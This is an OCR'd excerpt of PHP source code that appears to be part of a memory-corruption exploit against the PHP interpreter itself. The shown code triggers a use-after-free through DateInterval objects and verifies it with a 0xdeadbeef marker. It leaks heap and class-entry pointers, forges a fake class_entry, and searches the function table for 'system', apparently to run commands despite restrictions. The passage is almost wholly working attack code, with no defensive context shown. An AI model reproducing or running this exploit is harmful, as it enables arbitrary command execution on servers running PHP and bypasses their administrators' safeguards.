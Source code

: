 ```php
        $addr = $basic_funcs;
        do {
            $f_entry = $this->leak2($addr);
            $f_name = $this->leak2($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return $this->leak2($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    public function jsonSerialize() {
        global $y, $cmd, $spl1, $fake_tbl_off, $n_alloc;

        $contiguous = [];
        for($i = 0; $i < $n_alloc; $i++)
            $contiguous[] = new DateInterval('PT1S');

        $room = [];
        for($i = 0; $i < $n_alloc; $i++)
            $room[] = new Z();

        $_protector = $this->ptr2str(0, 78);

        $this->abc = $this->ptr2str(0, 79);
        $p = new DateInterval('PT1S');

        unset($y[0]);
        unset($p);

        $protector = ".$_protector";

        $x = new DateInterval('PT1S');
        $x->d = 0x2000;
        $x->h = 0xdeadbeef;
        # $this->abc is now of size 0x2000

        if($this->str2ptr($this->abc) != 0xdeadbeef) {
            die('UAF failed.');
        }

        $spl1 = new MySplFixedArray();
        $spl2 = new MySplFixedArray();

        # some leaks
        $class_entry = $this->str2ptr($this->abc, 0x120);
        $handlers = $this->str2ptr($this->abc, 0x128);
        $php_heap = $this->str2ptr($this->abc, 0x1a8);
        $abc_addr = $php_heap - 0x218;

        # create a fake class_entry
        $fake_obj = $abc_addr;
        $this->write($this->abc, 0, 2); # type
        $this->write($this->abc, 0x120, $abc_addr); # fake class_entry

        # copy some of class_entry definition
        for($i = 0; $i < 16; $i++) {
            $this->write($this->abc, 0x10 + $i * 8, 
                $this->leak1($class_entry + 0x10 + $i * 8));
        }

```